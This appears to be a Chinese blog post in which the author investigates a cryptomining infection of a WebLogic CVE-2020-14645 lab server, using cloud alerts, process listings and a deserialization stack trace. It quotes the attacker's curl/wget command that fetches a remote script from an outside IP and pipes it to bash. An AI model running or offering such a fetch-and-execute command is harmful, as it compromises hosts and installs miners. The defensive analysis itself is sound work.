








事情的起因
下班得瑟的我，突然接收到了一条来自阿里云的短信???????
土豆机中了挖矿！！！??????
先说下结果: 看了一堆，啥也没查到，奶奶的那吊毛删的太干净了!
这不是现场的应急教材吗????开冲!!!
前段时间复现CVE-2020-14645,有朋友想玩玩，然后就在我的土豆机上开心的用docker搭建了环境。
靠着我的直觉，直接停了docker,到家后登上阿里云，果然报的就是靶机。现在搞挖矿真不容易，还得拿最近爆出来的漏洞打~
从阿里云上看告警监测


对http://89.178.232.69:9000/seele地址进行get请求
动态IP没啥可看的
1 | curl |
2 | -s |
3 | -s参数将不输出错误和进度信息。 |

1 | /java/bin/java -server -Xdebug -Xnoagent -Xrunjdwp:transport=dt_socket,address=8453,server=y,suspend=n |
2 | -Djava.compiler=NONE -Xms256m -Xmx512m -XX:CompileThreshold=8000 -cp /u01/app/oracle/middleware/wlserver/server/lib/weblogic-launcher.jar |
3 | -Dlaunch.use.env.classpath=true -Dweblogic.Name=AdminServer |
4 | -Djava.security.policy=/u01/app/oracle/middleware/wlserver/server/lib/weblogic.policy |
5 | -Djava.system.class.loader=com.oracle.classloader.weblogic.LaunchClassLoader |
6 | -javaagent:/u01/app/oracle/middleware/wlserver/server/lib/debugpatch-agent.jar -ea -da:com.bea... -da:javelin... -da:weblogic... -ea:com.bea.wli... -ea:com.bea.broker... -ea:com.bea.sbconsole... -Dwls.home=/u01/app/oracle/middleware/wlserver/server -Dweblogic.home=/u01/app/oracle/middleware/wlserver/server weblogic.Server |
-Xdebug 启动命令
讲的可详细了
父进程id：15015
进程ID：27557
1 | /bin/sh -c (curl -s http://89.178.232.69:9000/seele||wget -q -O- http://89.178.232.69:9000/seele)|bash |
1 | wget |
2 | -q, --quiet 安静模式(没有输出) |
3 | -O ---document= 把文档写到文件中 |


日志分析
先查看下weblogic的访问日志
1 | oracle/Domains/ExampleSilentWTDomain/servers/AdminServer/logs |

还顺带发现了几个腾讯云的恶意IP

在ExampleSilentWTDomain.log下发现了当天下午四点的攻击（8小时时差）
1 | ####<Aug 7, 2020 8:50:35,581 AM UTC> <Error> <RJVM> <4695b9b44637> <AdminServer> <ExecuteThread: '0' for queue: 'weblogic.socket.Muxer'> <<WLS Kernel>> <> <6e5ae28b-117c-4080-b9d7-25c5070c1882-00000019> <1596790235581> <[severity-value: 8] [rid: 0] [partition-id: 0] [partition-name: DOMAIN] > <BEA-000503> <Incoming message header or abbreviation processing failed. |
2 | java.lang.ClassCastException: java.lang.UNIXProcess cannot be cast to java.lang.Comparable |
3 | java.lang.ClassCastException: java.lang.UNIXProcess cannot be cast to java.lang.Comparable |
4 | at com.tangosol.util.comparator.ExtractorComparator.compare(ExtractorComparator.java:71) |
5 | at java.util.PriorityQueue.siftDownUsingComparator(PriorityQueue.java:722) |
6 | at java.util.PriorityQueue.siftDown(PriorityQueue.java:688) |
7 | at java.util.PriorityQueue.heapify(PriorityQueue.java:737) |
8 | at java.util.PriorityQueue.readObject(PriorityQueue.java:797) |
9 | at sun.reflect.NativeMethodAccessorImpl.invoke0(Native Method) |
10 | at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62) |
11 | at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43) |
12 | at java.lang.reflect.Method.invoke(Method.java:498) |
13 | at java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1170) |
14 | at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:2178) |
15 | at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:2069) |
16 | at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1573) |
17 | at java.io.ObjectInputStream.readObject(ObjectInputStream.java:431) |
18 | at weblogic.rjvm.InboundMsgAbbrev.readObject(InboundMsgAbbrev.java:73) |
19 | at weblogic.rjvm.InboundMsgAbbrev.read(InboundMsgAbbrev.java:45) |
20 | at weblogic.rjvm.MsgAbbrevJVMConnection.readMsgAbbrevs(MsgAbbrevJVMConnection.java:325) |
21 | at weblogic.rjvm.MsgAbbrevInputStream.init(MsgAbbrevInputStream.java:219) |
22 | at weblogic.rjvm.MsgAbbrevJVMConnection.dispatch(MsgAbbrevJVMConnection.java:557) |
23 | at weblogic.rjvm.t3.MuxableSocketT3.dispatch(MuxableSocketT3.java:666) |
24 | at weblogic.socket.BaseAbstractMuxableSocket.dispatch(BaseAbstractMuxableSocket.java:397) |
25 | at weblogic.socket.SocketMuxer.readReadySocketOnce(SocketMuxer.java:993) |
26 | at weblogic.socket.SocketMuxer.readReadySocket(SocketMuxer.java:929) |
27 | at weblogic.socket.NIOSocketMuxer.process(NIOSocketMuxer.java:599) |
28 | at weblogic.socket.NIOSocketMuxer.processSockets(NIOSocketMuxer.java:563) |
29 | at weblogic.socket.SocketReaderRequest.run(SocketReaderRequest.java:30) |
30 | at weblogic.socket.SocketReaderRequest.execute(SocketReaderRequest.java:43) |
31 | at weblogic.kernel.ExecuteThread.execute(ExecuteThread.java:147) |
32 | at weblogic.kernel.ExecuteThread.run(ExecuteThread.java:119) |
33 | > |
历史记录被删除了，感觉好多数据都被删除了。

发现登陆记录被删除了

果然重要信息都被清除掉了，太现实了~

来缕一缕思路
手先通过扫描，发现我的靶机存在漏洞。

通过curl 和wget 投递挖矿程序->访问恶意ip执行了挖矿程序->脚本传入了挖矿程序后，运行后顺便把记录删了。